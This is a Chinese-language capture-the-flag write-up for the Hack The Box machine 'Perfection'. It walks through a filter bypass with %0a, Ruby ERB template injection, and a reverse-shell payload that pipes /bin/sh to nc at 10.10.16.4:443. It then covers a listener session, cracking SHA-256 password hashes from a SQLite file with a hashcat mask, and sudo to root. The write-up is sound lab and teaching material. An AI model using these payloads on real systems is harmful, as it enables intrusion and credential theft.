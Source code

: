 ```
┌──(root㉿kali)-[~]
└─# nmap -sV -Pn -A -O  10.10.11.253
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-16 03:10 EDT
Nmap scan report for 10.10.11.253
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
|_  256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Aggressive OS guesses: AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 4.15 - 5.6 (93%), Linux 5.3 - 5.4 (93%), Linux 2.6.32 (93%), Linux 5.0 - 5.3 (92%), Linux 3.1 (92%), Linux 3.2 (92%), Linux 5.4 (90%), Linux 5.0 (90%), Adtran 424RG FTTH gateway (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   294.67 ms 10.10.16.1
2   294.72 ms 10.10.11.253

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.98 seconds


```


web底部显示软件版本：Powered by WEBrick 1.7.0

来到/weighted-grade-calc这个唯一有输入框的页面

尝试添加引号触发服务端恶意行为检测提示 ：Malicious input blocked
![](Perfection_files/1.jpg)


在web页面添加引号触发框架报错提示
![](Perfection_files/2.jpg)

查了一下Sinatra是一个ruby的web开发框架

用```%0a```可以绕过

![](Perfection_files/3.jpg)

问GPT知道这个框架使用的模版系统是ERB

根据[这篇文章](https://trustedsec.com/blog/rubyerb-template-injection)


使用payload：```sci%0a<%= 7 * 7 %>```,urlencode后是```sci%0a%3C%25%3D%207%20*%207%20%25%3E```

得到一个模板命令执行

![](Perfection_files/4.jpg)


下面payload拿到revshell,参考[这里](https://exploit-notes.hdks.org/exploit/web/security-risk/erb-ssti/)
```
<%= system("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 443 >/tmp/f"); %>
```

urlencode
```
sci%0a%3C%25%3D%20system(%22rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.4%20
```

拿到foodhold
```
┌──(root㉿kali)-[~]
└─# nc -lnvp 443                    
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.253] 36496
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)

```


# 提权

由上面id命令可知，我们当前在sudo用户组，但是执行sudo需要用户命令


一封邮件
```
susan@perfection:/tmp$ cat /var/mail/susan 
cat /var/mail/susan 
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student

```

按这个格式，Susan的密码格式应该是：susan_nasus_xxxxx

发现一个sqllite数据库
```
susan@perfection:/tmp$ strings /home/susan/Migration/pupilpath_credentials.db 
<ngs /home/susan/Migration/pupilpath_credentials.db 
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f

```


把哈希复制出来

使用hashcat
```
 hashcat -m 1400 hash.txt -a 3 "susan_nasus_?d?d?d?d?d?d?d?d?d?d"
```

解出来密码是：susan_nasus_413759210


提权到root
```
susan@perfection:/tmp$ sudo su
sudo su
[sudo] password for susan: susan_nasus_413759210

root@perfection:/tmp# 

```